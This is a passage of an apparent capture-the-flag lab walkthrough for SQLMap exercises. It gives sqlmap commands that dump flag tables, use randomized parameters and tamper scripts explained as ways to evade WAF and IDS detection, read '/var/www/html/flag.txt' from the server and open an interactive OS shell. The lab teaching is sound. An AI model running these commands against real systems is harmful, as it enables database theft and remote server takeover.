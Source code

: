 #### What's the contents of table flag9? (Case #9) - [Unique ID]
```
sqlmap -r Case9.txt -T flag9 --dump --risk=3 --level=5 --batch --randomize=uid
```
- `--randomize=uid`: The `--randomize` flag is used to randomize the value of a specific parameter (in this case, `uid`) in each HTTP request. This is often done to avoid detection by web application firewalls (WAFs) or intrusion detection systems (IDS).
- Randomizing a parameter like `uid` simulates different users, making the attack harder to detect by automated defenses that might trigger if the same request is made repeatedly.

#### What's the contents of table flag10? (Case #10) - [Primitive protection]
```
sqlmap -r Case10.txt -T flag10 --dump --risk=3 --level=5 --batch
```

#### What's the contents of table flag11? (Case #11) - [Filtering of characters '<', '>']
```
sqlmap -r Case11.txt -T flag11 --dump --risk=3 --level=5 --batch --tamper=greatest,least --threads=10
```
<hr/>

### OS Exploitation - Exercises
#### Try to use SQLMap to read the file "/var/www/html/flag.txt".
```
sqlmap -r OsExploit.txt --file-read "/var/www/html/flag.txt" --batch --threads 10
```

#### Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host
```
sqlmap -r OsExploit.txt --os-shell --threads 10 --batch
```
<hr/>

## Skills Assessment
><b>Overview:</b>
You are given access to a web application with basic protection mechanisms. Use the skills learned in this module to find the SQLi vulnerability with SQLMap and exploit it accordingly. To complete this module, find the flag and submit it here.

`Before starting the assessment, make sure Burp Suite is running and properly intercepting requests from the web application.`

### Explore the Application
After launching the box, begin investigating the web application, which is an online store called Minishop.
